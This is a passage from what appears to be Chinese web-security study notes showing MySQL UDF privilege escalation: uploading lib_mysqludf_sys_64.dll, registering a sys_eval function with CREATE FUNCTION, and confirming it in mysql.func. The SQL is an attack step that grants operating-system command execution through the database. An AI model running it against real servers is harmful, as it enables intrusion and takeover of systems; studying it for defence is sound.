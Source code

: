 **将lib_mysqludf_sys_64.dll文件上传**
![image.png](../../_img/02-Web安全/01-基础知识/1663836801550-81ef5248-5fab-4445-ad1a-2bfcf49ba2b2.png)

**执行语句**
```python
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';
```
![image.png](../../_img/02-Web安全/01-基础知识/1663836533075-e7ab94c9-8286-4673-b84b-b690f04ca84f.png)
成功

**查看是否新增函数**

```python
select * from mysql.func;
```
![image.png](../../_img/02-Web安全/01-基础知识/1663836641699-bf6beeac-b3e5-49c6-80d7-a23c3c6d918c.png)
成功新增
